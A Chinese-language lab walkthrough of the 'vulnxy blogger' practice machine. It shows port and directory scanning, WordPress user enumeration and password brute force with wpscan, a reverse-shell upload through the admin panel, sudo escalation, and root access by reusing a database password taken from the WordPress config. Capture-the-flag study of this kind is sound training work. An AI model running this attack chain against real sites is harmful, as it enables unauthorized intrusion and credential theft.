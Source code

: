 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/vulnxy_blogger.md","permalink":"/安全/靶机/vulnxy_blogger/","title":"vulnxy_blogger","tags":["blog"]}
---
```


# 主机发现


```sh
┌──(root㉿kali)-[~/sharedir]
└─# nmap -sT -min-rate 10000 -p- 192.168.124.28
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 06:36 EST
Nmap scan report for 192.168.124.28 (192.168.124.28)
Host is up (0.32s latency).
Not shown: 39489 closed tcp ports (conn-refused), 26044 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:27:4C:4B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 80.69 seconds

```


# web渗透


```sh
┌──(root㉿kali)-[~/sharedir]
└─# dirb http://192.168.124.28/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Feb  6 06:46:51 2025
URL_BASE: http://192.168.124.28/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.124.28/ ----
+ http://192.168.124.28/index.html (CODE:200|SIZE:10701)
+ http://192.168.124.28/server-status (CODE:403|SIZE:279)
==> DIRECTORY: http://192.168.124.28/wordpress/

...


```


应该就是wordpress

用插件枚举一下用户

```sh
wpscan --url http://192.168.124.28/wordpress -e u
```
![Pasted image 20250206200358.png](/img/user/picture/Pasted%20image%2020250206200358.png)
```txt
peter
```

直接爆破密码试试

```sh
wpscan --url http://192.168.124.28/wordpress -U peter -P /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250206201332.png](/img/user/picture/Pasted%20image%2020250206201332.png)

`Username: peter, Password: peterpan`


我们就可以登陆进去了
//别忘了改一下`/etc/hosts`

![Pasted image 20250206202353.png](/img/user/picture/Pasted%20image%2020250206202353.png)

可以直接尝试上传一个反弹shell文件

![Pasted image 20250206202610.png](/img/user/picture/Pasted%20image%2020250206202610.png)

![Pasted image 20250206202704.png](/img/user/picture/Pasted%20image%2020250206202704.png)

![Pasted image 20250206202717.png](/img/user/picture/Pasted%20image%2020250206202717.png)


就已经上传成功了

![Pasted image 20250206202823.png](/img/user/picture/Pasted%20image%2020250206202823.png)




# 提权-1

```sh
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ sudo -l
Matching Defaults entries for www-data on blogger:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on blogger:
    (blog) NOPASSWD: /usr/bin/dash
```


![Pasted image 20250206203238.png](/img/user/picture/Pasted%20image%2020250206203238.png)


```sh
blog@blogger:~$ cat user.txt
cat user.txt
507ed5c488064e5ae9d2007dd2b50b53
```




# 提权-2
//之后就不知道怎么提权root了
看了WP之后发现wordpress的配置文件我们没看

```sh
ls -al
total 48
drwxr-xr-x 12 root     root     4096 Aug 16  2023 .
drwxr-xr-x 18 root     root     4096 Aug 16  2023 ..
drwxr-xr-x  2 root     root     4096 Feb  6 12:43 backups
drwxr-xr-x 10 root     root     4096 Aug 16  2023 cache
drwxr-xr-x 26 root     root     4096 Aug 16  2023 lib
drwxrwsr-x  2 root     staff    4096 Jun 30  2022 local
lrwxrwxrwx  1 root     root        9 Jan 15  2023 lock -> /run/lock
drwxr-xr-x  9 root     root     4096 Feb  6 12:35 log
drwxrwsr-x  2 root     mail     4096 Jan 15  2023 mail
drwxr-xr-x  2 root     root     4096 Jan 15  2023 opt
lrwxrwxrwx  1 root     root        4 Jan 15  2023 run -> /run
drwxr-xr-x  4 root     root     4096 Jan 15  2023 spool
drwxrwxrwt  2 root     root     4096 Feb  6 12:35 tmp
drwx------  3 www-data www-data 4096 Dec 20 11:27 www

```
c，还只能www-data才能看

```txt
/** Database username */
define( 'DB_USER', 'root' );

/** Database password */
define( 'DB_PASSWORD', 'm3g@Bl0g123' );

```


![Pasted image 20250206205312.png](/img/user/picture/Pasted%20image%2020250206205312.png)


```
cat root.txt
1a1096b5c68cbefc74290f70d7ccb696
```



# 总结

一个基础的wordpress的渗透
提权关键点在于配置文件












